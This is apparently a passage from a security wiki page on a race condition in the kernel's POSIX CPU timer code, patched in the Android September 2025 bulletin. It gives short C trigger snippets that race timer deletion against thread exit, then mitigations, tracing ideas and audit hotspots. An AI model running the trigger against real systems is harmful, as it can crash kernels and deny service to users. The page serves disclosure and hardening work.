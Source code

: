 ```c
static timer_t t;
static void setup_cpu_timer(void) {
    struct sigevent sev = {0};
    sev.sigev_notify = SIGEV_SIGNAL;    // delivery type not critical for the race
    sev.sigev_signo = SIGUSR1;
    if (timer_create(CLOCK_THREAD_CPUTIME_ID, &sev, &t)) perror("timer_create");
    struct itimerspec its = {0};
    its.it_value.tv_nsec = 1;           // fire ASAP
    its.it_interval.tv_nsec = 1;        // re-fire
    if (timer_settime(t, 0, &its, NULL)) perror("timer_settime");
}
```

- From a sibling thread, concurrently delete the same timer while the target thread exits:

```c
void *deleter(void *arg) {
    for (;;) (void)timer_delete(t);     // hammer delete in a loop
}
```

- Race amplifiers: high scheduler tick rate, CPU load, repeated thread exit/re-create cycles. The crash typically manifests when posix_cpu_timer_del() skips noticing firing due to failing task lookup/locking right after unlock_task_sighand().

Detection and hardening
- Mitigation: apply the exit_state guard; prefer enabling CONFIG_POSIX_CPU_TIMERS_TASK_WORK when feasible.
- Observability: add tracepoints/WARN_ONCE around unlock_task_sighand()/posix_cpu_timer_del(); alert when it.cpu.firing==1 is observed together with failed cpu_timer_task_rcu()/lock_task_sighand(); watch for timerqueue inconsistencies around task exit.

Audit hotspots (for reviewers)
- update_process_times() → run_posix_cpu_timers() (IRQ)
- __run_posix_cpu_timers() selection (TASK_WORK vs IRQ path)
- collect_timerqueue(): sets ctmr->firing and moves nodes
- handle_posix_cpu_timers(): drops sighand before firing loop
- posix_cpu_timer_del(): relies on it.cpu.firing to detect in-flight expiry; this check is skipped when task lookup/lock fails during exit/reap

Notes for exploitation research
- The disclosed behavior is a reliable kernel crash primitive; turning it into privilege escalation typically needs an additional controllable overlap (object lifetime or write-what-where influence) beyond the scope of this summary. Treat any PoC as potentially destabilizing and run only in emulators/VMs.

### See also

{{#ref}}
ksmbd-streams_xattr-oob-write-cve-2025-37947.md
{{#endref}}

## References
- [Race Against Time in the Kernel’s Clockwork (StreyPaws)](https://streypaws.github.io/posts/Race-Against-Time-in-the-Kernel-Clockwork/)
- [Android security bulletin – September 2025](https://source.android.com/docs/security/bulletin/2025-09-01)
- [Android common kernel patch commit 157f357d50b5…](https://android.googlesource.com/kernel/common/+/157f357d50b5038e5eaad0b2b438f923ac40afeb%5E%21/#F0)

{{#include ../../banners/hacktricks-training.md}}